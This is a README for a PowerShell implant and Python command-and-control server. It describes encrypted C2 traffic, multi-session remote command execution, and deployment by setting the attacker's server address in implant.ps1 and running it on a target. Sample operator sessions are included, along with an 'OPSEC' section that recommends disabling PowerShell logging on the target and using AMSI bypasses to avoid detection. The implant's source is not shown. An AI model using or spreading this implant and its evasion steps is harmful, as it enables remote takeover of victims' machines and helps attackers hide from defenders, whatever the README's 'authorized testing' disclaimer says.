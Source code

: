 # Stage 0 PowerShell Implant

A lightweight, OPSEC-focused PowerShell implant with encrypted command and control communication.

## Features

- **Encrypted Communication**: AES-256-CBC encryption for all C2 traffic
- **Session Management**: Multi-session support with easy switching
- **PowerShell Integration**: Native PowerShell command execution
- **OPSEC-Safe**: In-memory execution, minimal process creation
- **Simple Interface**: Clean operator interface without complex prefixes

## Components

### Server (`server.py`)
- Python-based C2 server with encrypted communication
- Multi-session management
- Interactive operator interface
- Session logging to `stage0_logs/` directory

### Implant (`implant.ps1`)
- PowerShell-based implant
- AES-256-CBC encrypted communication
- In-memory command execution
- Automatic reconnection handling

## Setup

### Prerequisites
```bash
pip install pycryptodome prompt_toolkit
```

### Server Setup
```bash
python3 server.py <listen_ip> <port>
```

Example:
```bash
python3 server.py 0.0.0.0 4343
```

### Implant Deployment
1. Modify the server IP and port in `implant.ps1`:
   ```powershell
   param(
       [string]$server = "YOUR_SERVER_IP",
       [int]$port = 4343
   )
   ```

2. Deploy to target system and execute:
   ```powershell
   .\implant.ps1
   ```

## Usage

### Operator Commands

| Command | Description |
|---------|-------------|
| `help` | Show help message |
| `sessions` | List active sessions |
| `use <session_id>` | Switch to a specific session |
| `kill <session_id>` | Forcibly close a session |
| `exit` | Exit current session (sends EXIT to implant) |

### Remote Commands

| Command Type | Example | Description |
|--------------|---------|-------------|
| **PowerShell** | `Get-Process` | Execute PowerShell commands (default) |
| **PowerShell** | `ps` | Process listing (PowerShell alias) |
| **PowerShell** | `ls` | Directory listing (PowerShell alias) |
| **PowerShell** | `whoami` | Get current user |
| **Windows CMD** | `CMD whoami` | Execute Windows command prompt commands |

### Examples

```bash
[OPERATOR] >>> sessions
Active sessions:
  1: 192.168.1.100:12345 [active] <-- selected

[OPERATOR] >>> ps
Handles NPM(K)  PM(K)  WS(K)   CPU(s)    Id SI ProcessName
------- ------  -----  -----   ------    -- -- -----------
    325     20   7284  39620     1.61  2976  1 explorer
    150      8   1452   7312     0.00  2604  0 powershell

[OPERATOR] >>> ls
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        1/1/2024   9:00:00 AM                Documents
-a----        1/1/2024   9:30:00 AM           1234 file.txt

[OPERATOR] >>> whoami
DOMAIN\username

[OPERATOR] >>> CMD ipconfig
Windows IP Configuration
Ethernet adapter Ethernet:
   Connection-specific DNS Suffix  . : local
   IPv4 Address. . . . . . . . . . . : 192.168.1.100
```

## OPSEC Considerations

### Strengths
- **In-memory execution**: Most commands run in PowerShell memory space
- **No process creation**: Commands don't spawn new processes (except CMD)
- **Encrypted communication**: All traffic is AES-256-CBC encrypted
- **Session persistence**: Maintains connection across command execution

### Detection Vectors
- **PowerShell logging**: Commands may be logged by ScriptBlock logging
- **AMSI scanning**: Commands are scanned by Anti-Malware Scan Interface
- **Network traffic**: Encrypted but detectable as unusual traffic
- **Process behavior**: PowerShell process with network activity

### Mitigation Strategies
- **Disable PowerShell logging** in target environment
- **Use CMD prefix** for commands that need to avoid PowerShell logging
- **Implement AMSI bypasses** for sensitive operations
- **Use environment variables** instead of `whoami` for user info

## File Structure

```
stage0/
├── server.py          # C2 server
├── implant.ps1        # PowerShell implant
├── stage0_logs/       # Session logs
├── __pycache__/       # Python cache
└── README.md          # This file
```

## Security Notes

- **For educational/authorized testing only**
- **Use only on systems you own or have explicit permission to test**
- **Encryption keys are hardcoded - change for production use**
- **Consider implementing certificate-based authentication**
- **Monitor for detection and adjust OPSEC measures accordingly**

## Troubleshooting

### Common Issues

**Implant won't connect:**
- Check server IP/port configuration
- Verify firewall settings
- Ensure PowerShell execution policy allows script execution

**Commands not working:**
- Use `CMD` prefix for Windows commands
- PowerShell commands run by default
- Check session status with `sessions`

**Session disconnects:**
- Implant automatically handles reconnection
- Check network connectivity
- Verify server is still running

## License

This project is for educational and authorized security testing purposes only. Use responsibly and in accordance with applicable laws and regulations.
